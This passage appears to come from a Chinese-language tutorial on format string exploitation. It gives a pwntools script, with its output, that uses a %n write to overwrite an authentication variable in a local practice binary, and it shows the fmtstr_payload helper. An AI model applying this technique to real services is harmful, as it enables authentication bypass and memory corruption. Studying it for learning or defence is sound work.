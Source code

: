 缓冲区位于第 7 个位置。

```python {title="exp.py"}
from pwn import *

context.log_level = 'info'

p = process('./auth')

AUTH = 0x0804c028

payload = p32(AUTH)
payload += b'|' * 6  # 我们需要写入值 10，AUTH 是 4 个字节，所以我们还需要 6 个字节来表示 %n
payload += b'%7$n'

p.sendline(payload)

p.interactive()
```

轻松覆盖：

```
$ python exp.py
[+] Starting local process './auth': pid 79229
[*] Switching to interactive mode
[*] Process './auth' stopped with exit code 0 (pid 79229)
Password:
(\xc||||||
Auth is 10
Authenticated!
```

## 0x07 Pwntools 半自动

正如你所期望的，pwntools 有一个方便的功能，可以自动利用 `%n` 格式化占位符：

```python
payload = fmtstr_payload(offset, {location : value})
```

本例中的 `offset` 为 7，因为第 7 个 `%p` 读取了缓冲区；`location` 是你要写入的
位置，`value` 是要写入的内容。

*注：你可以根据需要向字典中添加任意数量的 `location : value` 对。*

```python
payload = fmtstr_payload(7, {AUTH : 10})
```

你还可以使用 pwntools 获取 `auth` 的位置：

```python
elf = ELF('./auth')
AUTH = elf.sym['auth']
```

